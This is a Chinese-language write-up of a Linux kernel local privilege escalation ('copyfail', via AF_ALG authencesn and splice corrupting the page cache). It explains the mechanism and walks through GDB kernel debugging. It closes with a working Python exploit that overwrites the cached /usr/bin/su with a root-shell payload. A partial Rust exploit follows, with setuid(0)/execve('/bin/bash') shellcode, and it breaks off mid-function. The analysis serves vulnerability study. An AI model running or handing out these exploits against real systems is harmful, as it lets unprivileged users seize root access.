## copyfail的原理简述

这个漏洞本质是：

> **用户可以往“****只读****文件的** **page cache****（****内存****缓存）”写数据，但磁盘不会变 → 执行时用的是被篡改的内存版本 → 提权**

简单的说，你没有权限改 /usr/bin/su，但你可以偷偷改 “内存里的 su”，然后系统执行的正是这个“被改的版本”

## 核心原理

### page cache（页缓存）

在linux中，程序的运行比如execve() 执行程序 → 是直接用 page cache的，而本身page cache 是全局共享的（跨进程、跨容器）,所以我们就可以通过page cache改变程序行为

### splice

`splice()` 是一个 Linux 特有的系统调用，**用于在两个文件描述符之间高效地移动数据，实现了**零拷贝（Zero-Copy）I/O 操作。它直接在内核内存中传输数据，避免了数据在内核空间和用户空间之间的重复拷贝。

正常情况下是这样的



splice系统调用提供了一个管道，我们并不需要将文件内容读取到用户态缓存中，但需要使用管道作为中转，在这个情况下，我们减少了一次进入并退出用户态的过程，减少 了上下文保存的时间。

```C++
#define _GNU_SOURCE
#include <fcntl.h>

ssize_t splice(int fd_in, loff_t *off_in, int fd_out,
               loff_t *off_out, size_t len, unsigned int flags);
```



### AF_ALG

Linux 内核提供的一种用户空间套接字接口（Socket Interface），允许应用程序直接调用内核中高性能的密码模块（如 AES、SHA 等）来实现加密、解密和哈希算法**, 实现用 CT  户态程序调用内核态密码****API****，避免算法在用户态重复实现**

```Shell
socket(AF_ALG)→ 调用内核 crypto
```

在这里，我们要提到AF_ALG的一个机制──scatterlist，他会将多个地方的buffer页面连起来，在他的这个层面上讲就会把scatterlist的内存作为一整个连续的内存块。



而crypto 模块（authencesn）会“写数据到 buffer”，并且它无法判断 buffer 里是否混进了 page cache

```Thrift
struct sockaddr_alg sa = {
    .salg_family = AF_ALG,
    .salg_type = "hash",   
    .salg_name = "sha256"  
};

bind(fd, (struct sockaddr *)&sa, sizeof(sa));
```

详细可以阅读 af_alg_get_rsgl 怎么buffer转sg，scatterwalk_map_and_copy怎么跨sg读数据

### 不必须的 authencesn？

关于其中使用的密码学算法，我们必须使用authencesn吗？之所以用 authencesn，是因为它会往输出 buffer 写数据，而且写的位置可控/可越界，正好满足写数据、in_palce 、尾部写

内核的 AEAD API 定义了一个清晰的输出合约以进行解密:目标缓冲区**接收 AAD ||** **明文****,即 assoclen +(cryptlen - authsize)字节。**

AAD 和密文数据通过 memcpy_sglistmemcpy_sglist 从输入散点列表直接复制到输出缓冲区中。这是一份真实的副本。页面缓存页面仅被读取。authsize但输入散点列表的最后一个大号字节——认证标签不会被复制。内核保留标签的散点列表条目,并使用 sg_chain() 将它们链接到输出散点列表的末尾:

```Plain
Input SGL:     AAD  ||  CT  ||  Tag
                |       |        ^
                | copy  |        | sg_chain (still references page cache pages)
                v       v        |
Output SGL:    AAD  ||  CT  -----+
```

### execve重利用

当运行一个新的su的时候，不应该使用execve系统调用启动一个新的吗？那之前的dirty page还可以正常使用吗？答案是可以的，这利用操作系统的复用思想，操作系统会优先对cache page中存在的代码进行查找，如果存在，则重复利用，所以我们新运行的是存在dirty page上的程序，所以是可以执行的。

## 调试过程

启动qemu，此时的kernel由于我们的-s参数是被堵塞停住的，只有使用gdb attach到他的时候才会继续运行，我们启动gdb，并载入vmlinux的信息

```Rust
file vmlinux
target remote :1234
```

我们可以在start_kernel这个位置打一个断点,然后c执行到此处

```Rust
b start_kernel
```



如果没有问题就可以继续c，然后来操作虚拟机了，虚拟机image里存放着之前准备时编译的poc本体，在这里他相对于kernel漏洞的触发器，我们不调试他，而是通过他来触法并观察kernel的运行，由于这个程序我们不能通过gdb直接控制，所以我们也需要对kernel做一点断点

```Rust
b __sys_socket
b af_alg_get_rsgl
b scatterwalk_map_and_copy
b send_msg
b do_splice
b splice_to_pipe
b sg_chain
```

完成后直接运行CVE……，此时gdb应该会在这个页面停下



那么这时候我们来看一下从开始到断点这个期间发生了什么，程序将fd加载到内存中，并创建一个fd接口,此时把这一部分的内容加载到cache里并分配一个fd



在跟踪fd的时候，如果我们用传统调试程序的思维来说，我们可以直接针对程序本体的proc文件列出。

```Rust
ls /proc/程序的pid/fd 
```

但是我们是在虚拟机中，我们这样直接列相对于只是把qemu占用的fd给拿了出来，那我们没有办法了吗？别急，运行一下apropos lx 看看呢？

```SQL
 apropos
❌ REGEXP string is empty
pwndbg> apropos lx
function lx_clk_core_lookup -- Find struct clk_core by name
function lx_current -- Return current task.
function lx_dentry_name -- Return string of the full path of a dentry.
function lx_device_find_by_bus_name -- Find struct device by bus and name (both strings
function lx_device_find_by_class_name -- Find struct device by class and name (both str
function lx_i_dentry -- Return dentry pointer for inode.
function lx_module -- Find module by name and return the module variable.
function lx_per_cpu -- Return per-cpu variable.
function lx_per_cpu_ptr -- Return per-cpu pointer.
function lx_radix_tree_lookup -- Lookup and return a node from a RadixTree.
function lx_rb_first -- Lookup and return a node from an RBTree
function lx_rb_last -- Lookup and return a node from an RBTree.
function lx_rb_next -- Lookup and return a node from an RBTree.
function lx_rb_prev -- Lookup and return a node from an RBTree.
function lx_task_by_pid -- Find Linux task by PID and return the task_struct variable.
function lx_thread_info -- Calculate Linux thread_info from task variable.
function lx_thread_info_by_pid -- Calculate Linux thread_info from task variable found by pid
lx-clk-summary -- Print clk tree summary
lx-cmdline -- Report the Linux Commandline used in the current kernel.
lx-configdump -- Output kernel config to the filename specified as the command
lx-cpus -- List CPU status arrays
lx-device-list-bus -- Print devices on a bus (or all buses if not specified)
lx-device-list-class -- Print devices in a class (or all classes if not specified)
lx-device-list-tree -- Print a device and its children recursively
lx-dmesg -- Print Linux kernel log buffer.
lx-dump-page-owner -- Dump page owner
lx-fdtdump -- Output Flattened Device Tree header and dump FDT blob to the filename
lx-genpd-summary -- Print genpd summary
lx-getmod-by-textaddr -- Look up loaded kernel module by text address.
lx-interruptlist -- Print /proc/interrupts
lx-iomem -- Identify the IO memory resource locations defined by the kernel
lx-ioports -- Identify the IO port resource locations defined by the kernel
lx-list-check -- Verify a list consistency
lx-lsmod -- List currently loaded modules.
lx-mounts -- Report the VFS mounts of the current process namespace.
lx-page_address -- struct page to linear mapping address
lx-page_to_pfn -- struct page to PFN
lx-page_to_phys -- struct page to physical address
lx-pfn_to_kaddr -- PFN to kernel address
lx-pfn_to_page -- PFN to struct page
lx-ps -- Dump Linux tasks.
lx-slabinfo -- Show slabinfo
lx-slabtrace -- Show specific cache slabtrace
lx-stack_depot_lookup -- Search backtrace by handle
lx-sym_to_pfn -- symbol address to PFN
lx-symbols -- (Re-)load symbols of Linux kernel and currently loaded modules.
lx-timerlist -- Print /proc/timer_list
lx-version -- Report the Linux Version of the current kernel.
lx-virt_to_page -- virtual address to struct page
lx-virt_to_phys -- virtual address to physical address
lx-vmallocinfo -- Show vmallocinfo
```

其中的lx-fdtdump不就是我们想要的fd table表吗？kernel gbb script选项在编译时已经生成了这些函数，我们可以通过这个查看。当然也可以通过 current_task 调试查看。

> current_task查看的原理
>
> “当前正在 CPU 上运行的进程”，这个结构体包含一下内容，可以通过*current_task->files->fdt->fd来确定其中的内容
>
> ```Rust
> CPU
>  └── current_task
>         ↓
>    struct task_struct
>         ├── pid
>         ├── comm
>         ├── files
>         ├── mm
>         ├── cred
>         └── stack
> ```

这里可能由于我这里的问题，current_task的地址位于vmmap之外，故无法查看（悲）

接下来是send_chunk的过程，首先我们创建这样一个套接字，并使用AF_ALG来构造scaterlist链，最初我们发送一个xxxx+chunk块，这时候由于我们还没有接受结果此时AF_ALG还没有进行处理



然后通过splice来将他们构造成一个buffer，注意，在此至始至终我们的AF_ALG内的指针是一直指向chunk这个块的



在这里我们的gdb在do_splice处停下，根据调用规则rdx和rdi分别是 in、out两个参数。




我们可以分别看一下in和out分别指向的内容，首先是in的内容。

```C
$2 = {
  f_lock =  ......,
  f_mode = 69992450,
  f_op = 0xffffffff8264f9c0 <pipeanon_fops>,
  f_mapping = 0xffff888004d62b68,
  private_data = 0xffff888005c4ea80,
  f_inode = 0xffff888004d629f8,
  f_flags = 1,
  f_iocb_flags = 0,
  f_cred = 0xffff88800579f0c0,
  f_owner = 0x0,
  f_path = {
    mnt = 0xffff888005012020,
    dentry = 0xffff888004cab300
  },
  ......
  f_pos = 0,
  f_security = 0xffff88800530c820,
  f_wb_err = 0,
  f_sb_err = 0,
  f_ep = 0x0,
  ......
  f_ref = {
    refcnt = {
      counter = 0
    }
  }
}
```

> Struct file的结构
>
> ```C++
> struct file {
>     spinlock_t      f_lock;
>     fmode_t         f_mode;
>     const struct file_operations *f_op;
>     struct address_space *f_mapping;
>     void            *private_data;
>     struct inode    *f_inode;
>     unsigned int    f_flags;
>     struct path     f_path;
>     loff_t          f_pos;
>     const struct cred *f_cred;
>     struct file_ra_state f_ra;
>     atomic_long_t   f_count;
> };
> ```

从f_op可以判断，这个是指向的匿名管道，这里也就是pipe buffer 环

```Rust
private_data = 0xffff888005c4ea80
```

我们查看pipe的内容

```C
p *(struct pipe_inode_info *)0xffff888005c4ea80
$3 = {
  mutex = ...,
  rd_wait = ...,
  wr_wait = ...,
  max_usage = 16,
  ring_size = 16,
  nr_accounted = 16,
  readers = 1,
  writers = 1,
  files = 2,
  r_counter = 1,
  w_counter = 1,
  poll_usage = false,
  note_loss = false,
  tmp_page = {0x0, 0x0},
  fasync_readers = 0x0,
  fasync_writers = 0x0,
  bufs = 0xffff888005eb2000,
  user = 0xffffffff83682300 <root_user>,
  watch_queue = 0x0
}
```

此时bufs就是指向的内容,此时应该是空的，因为pipe还并未使用



而另一个则是文件的，可以明显看到这里是ext4的文件

```Bash
$5 = {
  f_lock = ...,
  f_mode = 206209053,
  f_op = 0xffffffff8265f540 <ext4_file_operations>,
  f_mapping = 0xffff888004d6c280,
  private_data = 0x0,
  f_inode = 0xffff888004d6c110,
  f_flags = 32768,
  f_iocb_flags = 0,
  f_cred = 0xffff88800579f0c0,
  f_owner = 0x0,
  f_path = {
    mnt = 0xffff88800549fda0,
    dentry = 0xffff888004cab780
  },
  ...
  f_pos = 0,
  f_security = 0xffff88800530c730,
  f_wb_err = 0,
  f_sb_err = 0,
  f_ep = 0x0,
  ......
}
```

在这个f_path里的dentry处我们可以确定文件的文件名



而其中文件的内容应该如何去寻找呢？我们先了解一下结构

```C
file
 └── inode
      └── address_space(i_mapping)
            └── page cache / folio
                  └── 实际文件数据
```

我们从其中的f_inode进入

```C
p ((struct inode *)0xffff888004c32d20)->i_mapping
$6 = (struct address_space *) 0xffff888004c32e90
```

然后找到对应的页

```C
 p *(struct address_space *)  0xffff888004c32e90
 
  i_pages = {
   ....
    xa_flags = 33554465,
    xa_head = 0xffffea00001e9880
  },
  ....
 }
```

这里的xa_head是我们page cache,这里我们需要结算一下，就是我们要的地址

x86_64 通常：

```Plain
vmemmap_base = 0xffffea0000000000
sizeof(struct page)=0x40
```

所以：

```Plain
0xffffea00001e9880
-0xffffea0000000000
------------------
           0x1e9880
```

再除：

```Plain
0x1e9880 / 0x40 = 0x7a620
```

得到：

```Plain
PFN = 0x7a620
```

direct map：

```Plain
phys = PFN << 12
     = 0x7a620000
virt = phys + 0xffff888000000000
```

即：

```Plain
0xffff88807a62000
```



执行完此函数后的返回值则是完成的splice链，构成链后，从 AEAD 解密的视角来解读这段连续数据：

- **AAD**= 前`assoclen=8`字节 = sendmsg 发送的`\x00\x00\x00\x00`+shellcode
- **密文 (Ciphertext)**= 中间`t`字节 = file[0:t]（文件的前 t 字节被当成"密文"）
- **认证标签 (Auth Tag)**= 最后`authsize=4`字节 = file[t:t+4]

总字节数 = 8 + t + 4 = t + 12。



在这里我们断到af_alg_get_rsgl,在这里，将我们之前文件页的信息拼接



我们继续往下跟这里，这里就是去将shellcode写到文件内容，我们跟进细看这个函数



跟进看其中的memcpy





这里是进行了写，并对内容修改


根据我们之前跟到了内存内容，发现文件页也发生了改写

> No other standard AEAD algorithm in the kernel does this. GCM, CCM, and regular authenc all confine their writes to the legitimate output area. authencesn alone writes past the boundary.
>
> In the AF_ALG in-place path, this write crosses from the output buffer into the chained page cache tag pages. scatterwalk_map_and_copy walks past the RX buffer, maps the page cache page via kmap_local_page, and writes seqno_lo  directly into the kernel's cached copy of the target file. The HMAC  computation then runs and fails (the ciphertext is fabricated), so recvmsg() returns an error, but the 4-byte controlled write persists.

标签（Tag）区域对应于拼接文件数据的最后 `authsize` 字节，以此类推，就能替换完全

当脏页替换完后，直接命令执行su即可

## Poc

```Python
#!/usr/bin/env python3

import os
import zlib
import socket


def hex_to_bytes(hex_str: str) -> bytes:
    """把十六进制字符串转为 bytes"""
    return bytes.fromhex(hex_str)


def send_chunk(fd, offset, chunk_data):
    """
    利用 AF_ALG socket 发送数据（疑似 exploit 逻辑）
    fd: 打开的文件描述符
    offset: 当前偏移
    chunk_data: 4 字节数据块
    """

    AF_ALG = 38
    SOL_ALG = 279
    sock = socket.socket(AF_ALG, 5, 0) 

    sock.bind(("aead", "authencesn(hmac(sha256),cbc(aes))"))

    ALG_SET_KEY = 1
    ALG_SET_AEAD_AUTHSIZE = 5

    
    key = hex_to_bytes('0800010000000010' + '0' * 64)
    sock.setsockopt(SOL_ALG, ALG_SET_KEY, key)

    sock.setsockopt(SOL_ALG, ALG_SET_AEAD_AUTHSIZE, None, 4)

    conn, _ = sock.accept()

    total_len = offset + 4
    zero = hex_to_bytes('00')

    conn.sendmsg(
        [b"A" * 4 + chunk_data],
        [
        #(IV)
        #(ASSOCLEN)
        #(OP)
            (SOL_ALG, 3, zero * 4),
            (SOL_ALG, 2, b'\x10' + zero * 19),
            (SOL_ALG, 4, b'\x08' + zero * 3),
        ],
        32768
    )

    read_fd, write_fd = os.pipe()

    os.splice(fd, write_fd, total_len, offset_src=0)
    os.splice(read_fd, conn.fileno(), total_len)

    try:
        conn.recv(8 + offset)
    except Exception:
        pass


def main():
    fd = os.open("/usr/bin/su", os.O_RDONLY)

    compressed = hex_to_bytes(
        "78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"
    )

    payload = zlib.decompress(compressed)

    offset = 0
    while offset < len(payload):
        chunk = payload[offset:offset + 4]
        send_chunk(fd, offset, chunk)
        offset += 4

    os.system("su")


if __name__ == "__main__":
    main()
use std::{env, fs, io};
use std::ffi::CString;
use std::fs::File;
use std::io::{Read, Write};
use std::os::unix::io::AsRawFd;

const TARGET_BINARY: &str = "/usr/bin/su";
const TEST_FILE: &str = "/tmp/.cve_test";

// Shellcode (/bin/bash)
/*
; Reference of syscall: https://filippo.io/linux-syscall-table/
; The assembly code of the shellcode is shown below
db 0x7f, 'ELF', 2, 1, 1, 0      ; e_ident
dq 0                            ; padding
dw 2                            ; e_type (ET_EXEC)
dw 62                           ; e_machine (EM_X86_64)
dd 1                            ; e_version
dq 0x400078                     ; e_entry (Entry point)
dq 0x40                         ; e_phoff (Program Header Offset)
dq 0                            ; e_shoff
dd 0                            ; e_flags
dw 64                           ; e_ehsize
dw 56                           ; e_phentsize
dw 1                            ; e_phnum
dw 0, 0, 0                      ; s_header info

; Program Header
dd 1                            ; p_type (PT_LOAD)
dd 5                            ; p_flags (PF_R | PF_X)
dq 0                            ; p_offset
dq 0x400000                     ; p_vaddr
dq 0x400000                     ; p_paddr
dq 0x9e                         ; p_filesz
dq 0x9e                         ; p_memsz
dq 0x1000                       ; p_align

; Program
_start:
    ; setuid(0)
    xor eax, eax                ; clear eax
    xor edi, edi                ; edi = 0 (UID 0)
    mov al, 105                 ; syscall 105 (setuid)
    syscall

    ; execve("/bin/bash", NULL, NULL)
    lea rdi, [rel path]         ; Load effective address of the string
    xor esi, esi                ; argv = NULL
    cdq                         ; edx = 0 (envp = NULL)
    mov al, 59                  ; syscall 59 (execve)
    syscall

    ; exit(0)
    xor edi, edi
    push 60
    pop rax                     ; syscall 60 (exit)
    syscall

path: db "/bin/bash", 0
*/
const BASH_SHELLCODE: &[u8] = &[
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x01, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x9e, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x9e, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x31, 0xc0, 0x31, 0xff, 0xb0, 0x69, 0x0f, 0x05,
    0x48, 0x8d, 0x3d, 0x0f, 0x00, 0x00, 0x00, 0x31, 0xf6, 0x6a, 0x3b, 0x58, 0x99, 0x0f, 0x05, 0x31,
    0xff, 0x6a, 0x3c, 0x58, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x62, 0x61, 0x73, 0x68, 0x00
];

unsafe fn inject_payload(fd: i32, payload: &[u8]) {
    for i in (0..payload.len()).step_by(4) {
        let mut chunk = [0u8; 4];
        let end = std::cmp::min(i + 4, payload.len());
        chunk[..end - i].copy_from_slice(&payload[i..end]);
        
        do_kernel_injection(fd, i, &chunk);
        
        if i % 40 == 0 {
            io::stdout().flush().ok(); 
        }
    }
}

// Perform kernel-level memory injection using the AF_ALG vulnerability (CVE-2026-31431)
unsafe fn do_kernel_injection(target_fd: i32, t_idx: usize, chunk: &[u8]) {
    // Create an AF_ALG socket (address family for kernel crypto API)
